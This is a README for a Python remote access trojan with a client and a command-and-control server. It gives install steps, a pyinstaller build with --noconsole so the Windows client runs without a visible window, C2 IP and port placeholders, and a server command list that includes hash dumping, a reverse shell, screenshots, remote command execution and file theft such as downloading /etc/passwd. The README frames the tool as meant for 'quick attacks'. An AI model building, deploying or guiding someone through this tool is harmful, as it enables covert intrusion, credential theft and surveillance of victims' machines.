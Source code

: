 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile client.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

### Usage
#### Client

The client don't need any argument to be executed, in order to make quick attacks easier. However, if you want to specify the server IP and port, you can modify those values in the `client.py`, at the end of the file: (`Client` folder)

```python
C2_IP = 'YOUR_IP'
C2_PORT = YOUR_PORT
```

You can run the client by executing the following command:

```bash
python3 client.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
hashdump    : Dump the hashes from the target (may crash on Windows)
search      : Search a file on the target's filesystem 
ipconfig    : Retrieve the IP Configuration from the current target 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
exit        : Exit the server
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
help        : Show this help message
exec        : Execute a system command in the local machine
====================
```